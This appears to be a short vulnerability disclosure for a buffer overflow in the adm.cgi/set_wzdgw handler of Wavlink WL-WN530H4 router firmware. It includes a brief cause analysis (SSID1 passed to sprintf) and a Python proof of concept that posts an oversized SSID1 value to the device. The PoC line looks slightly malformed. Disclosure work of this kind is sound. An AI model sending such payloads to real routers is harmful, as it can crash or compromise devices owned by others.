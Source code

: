 # buff overflow

## WAVLINK_WL_WN530H4

version: 20220801

## Description:

There is a buff overflow in adm.cgi/set_wzdgw

## Source:

you may download it from : [WL-WN530H4 - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/c5834c4010.html)

## Analyse:

![](4.png)

get value from SSID1, if TouchLinkEn was set, call sprintf, cause buff overflow

## POC

```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'wzdgw', 'SSID1': + payload})
```
